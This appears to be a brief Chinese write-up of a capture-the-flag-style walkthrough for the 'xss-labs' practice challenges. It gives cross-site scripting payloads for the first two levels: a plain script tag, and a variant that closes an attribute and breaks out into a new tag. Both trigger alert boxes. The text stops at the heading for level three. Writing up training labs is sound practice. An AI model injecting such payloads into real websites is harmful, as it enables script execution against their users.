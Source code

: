 ### xss-labs

> 第一关

```js
<script>alert(%27第一关%27)</script>
```

![image-20240913203517651](./assets/image-20240913203517651.png)

> 第二关

```js
"><script>alert("第二关")</script><"
```

![image-20240913203718361](./assets/image-20240913203718361.png)

> 第三关



